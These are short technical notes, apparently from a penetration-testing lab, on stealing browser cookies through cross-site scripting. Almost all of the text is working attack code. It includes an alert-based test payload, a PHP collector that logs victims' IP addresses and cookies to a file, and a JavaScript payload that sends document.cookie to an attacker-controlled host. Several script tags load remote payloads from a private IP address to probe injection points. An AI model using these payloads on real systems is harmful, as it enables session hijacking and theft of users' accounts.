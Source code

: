 `<script>alert(document.cookie)</script>`

mkdir /tmp/tmpserver

cd /tmp/tmpserver

vim index.php

```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
} 
?>
```

Vim script.js

```
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

sudo php -S `<ip> `
```
<script src=http://10.10.15.114:800/comment></script>

<script src=http://10.10.15.114:800/name></script>

<script src=http://10.10.15.114:800/websitet></script>
```
->result點

`<script src=http://10.10.15.114:800/script.js></script>`
